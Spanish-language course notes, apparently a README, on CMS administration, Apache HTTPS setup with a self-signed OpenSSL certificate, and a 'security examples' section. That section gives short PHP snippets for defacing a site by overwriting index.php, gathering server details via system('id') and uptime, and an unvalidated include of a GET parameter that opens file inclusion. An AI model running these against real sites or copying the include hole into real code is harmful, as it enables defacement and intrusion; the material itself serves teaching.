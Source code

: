 # Administración de gestores de contenidos
- Usuarios y grupos.
- Perfiles.
- Seguridad. Control de accesos.
- Integración de módulos.
- Gestión de temas.
- Plantillas.
- Copias de seguridad.
- Sindicación de contenidos.
- Importación y exportación de la información.

-------------------

# Crear un sitio en un hosting gratuito
* https://www.000webhost.com/members

-------------------

# Seguridad
## HTTPS sobre Apache: cómo configurar un host virtual seguro
* https://blog.carreralinux.com.ar/2016/11/crear-un-certificado-digital-autofirmado-apache/
* https://ourcodeworld.com/articles/read/198/enabling-ssl-https-protocol-with-xampp-in-a-local-php-project
* https://www.jesusninoc.com/11/18/exports-a-certificate-to-a-personal-information-exchange-pfx-file/

### Crear un certificado en Windows con OpenSSL
```CMD
$env:OPENSSL_CONF = "C:\Users\eser\Downloads\openssl-0.9.8h-1-bin\share\openssl.cnf"
cd C:\Users\eser\Downloads\openssl-0.9.8h-1-bin\bin
.\openssl.exe req -x509 -nodes -days 365 -newkey rsa:2048 -keyout apache.key -out apache.crt
```

### Configuración de httpd-ssl.conf
```
# https
#   General setup for the virtual host
DocumentRoot "C:/xampp/htdocs"
ServerName localhost:443
ServerAdmin admin@example.com
ErrorLog "C:/xampp/apache/logs/error.log"
TransferLog "C:/xampp/apache/logs/access.log"
```

### Install Let's Encrypt to Create SSL Certificates
* https://www.linode.com/docs/security/ssl/install-lets-encrypt-to-create-ssl-certificates/

-------------------

## Ejemplos seguridad
### Almacenar en un fichero la variable GET
```PHP
<?php

// http://localhost:8000/?valor=holadf

	$valor = $_GET["valor"];

	$file = fopen("archivo.txt", "w");
	fwrite($file, $valor . PHP_EOL);
	fclose($file);

	$file = fopen("archivo.txt", "r");
	
	while(!feof($file)) {
		echo fgets($file). "<br />";
	}

	fclose($file);
?>
```

### Almacenar en un fichero informacion sobre la batería del equipo ejecutando un fichero en PHP desde un servidor remoto

#### Código de la petición de batería (PowerShell)
```PowerShell
Invoke-WebRequest ("http://localhost/index.php?valor=" + ((Get-WmiObject Win32_Battery).EstimatedChargeRemaining) + "&hora=" + (Get-Date))
```

#### Código de la web (PHP)
```PHP
<?php
	$valor = $_GET["valor"];
	$hora = $_GET["hora"];

	$file = fopen("archivo.txt", "w");
	fwrite($file, $hora . "*" . $valor . PHP_EOL);
	fclose($file);

	$file = fopen("archivo.txt", "r");
	
	while(!feof($file)) {
		echo fgets($file). "<br />";
	}

	fclose($file);
?>
```

### Realizar un deface
```PHP
<?php
	$fp=fopen("index.php","w+");

	fwrite($fp,"<title>Hacked</title>\n");
	fclose($fp);
?>
```

### Obtener información del sistema
```PHP
<?php
	$alb = @php_uname();
	$alb2 = system(uptime);
	$alb3 = system(id);
	$alb4 = @getcwd();
	$alb5 = getenv("SERVER_SOFTWARE");
	$alb6 = phpversion();
	$alb7 = $_SERVER['SERVER_NAME'];
	$alb8 = gethostbyname($SERVER_ADDR);
	$alb9 = get_current_user();
	$os = @PHP_OS;

	echo "os: $os<br>";
	echo "uname -a: $alb<br>";
	echo "uptime: $alb2<br>";
	echo "id: $alb3<br>";
	echo "pwd: $alb4<br>";
	echo "user: $alb9<br>";
	echo "phpv: $alb6<br>";
	echo "SoftWare: $alb5<br>";
	echo "ServerName: $alb7<br>";
	echo "ServerAddr: $alb8<br>";
	exit;
?>
```

### Incluir un fichero por método GET
```PHP
<?php
	include_once($_GET["MAIN"])
?> 

```
